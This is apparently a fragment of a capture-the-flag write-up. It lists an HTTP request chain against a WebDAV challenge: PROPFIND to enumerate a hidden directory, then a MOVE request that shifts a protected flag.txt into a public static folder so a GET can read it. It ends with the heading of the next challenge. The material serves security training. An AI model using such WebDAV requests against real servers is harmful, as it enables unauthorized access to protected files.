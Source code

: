 ### Attack Chain
```sh
GET /code
# directory listing /
PROPFIND / 
# we can find /the_secret_dav_inci_codef/flag.txt
PROPFIND /the_secret_dav_inci_code 

# move unaccessible resource to static 
MOVE /the_secret_dav_inci_code/flag.txt HTTP/1.1
Destination: /static/flag.txt

GET /static/flag.txt 
```

### MOVE the flag
![Alt text](images/image-21.png)
![Alt text](images/static.png)


## Thomas DEVerson (175 pts)
> All things considered, I'm impressed this website is still up and running 200 years later. 
